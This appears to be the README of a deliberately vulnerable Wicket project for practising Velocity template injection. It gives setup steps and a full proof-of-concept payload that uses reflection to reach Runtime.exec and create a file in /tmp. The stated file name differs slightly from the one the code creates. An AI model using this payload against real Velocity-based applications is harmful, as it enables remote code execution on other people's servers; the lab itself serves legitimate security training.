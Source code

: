 ## Vuln Velocity Wicket ##

You can start vulnerable wicket project on cli:

```
mvn clean install 
java -jar target/dependency/jetty-runner.jar target/*.war
```

1. Visit local URL http://127.0.0.1:8080/
2. Paste velocity exploit code into wicket veloctiy editor.
3. Press update button.
4. Velocity expoit creates a new file velocity-poc.txt in /tmp
```
#set($start = "")
#set($classLoaderMethod =$start.getClass().getClass().getDeclaredMethod("getClassLoader", null))
$classLoaderMethod.setAccessible(true)
#set($appClassLoader=$classLoaderMethod.invoke(${persons.get(0).getClass()},null))


#set($runtTimeClass = $appClassLoader.loadClass("java.lang.Runtime"))
#set($runtimedMethod = $runtTimeClass.getDeclaredMethod("getRuntime", null))
#set($runtimedMethodExecuted = $runtimedMethod.invoke($runtTimeClass, null))
#set($stringClass = $appClassLoader.loadClass("java.lang.String"))
$runtimedMethodExecuted.getClass().getDeclaredMethod("exec", $stringClass).invoke($runtimedMethodExecuted, "touch /tmp/velocity-rce-poc.txt")
```

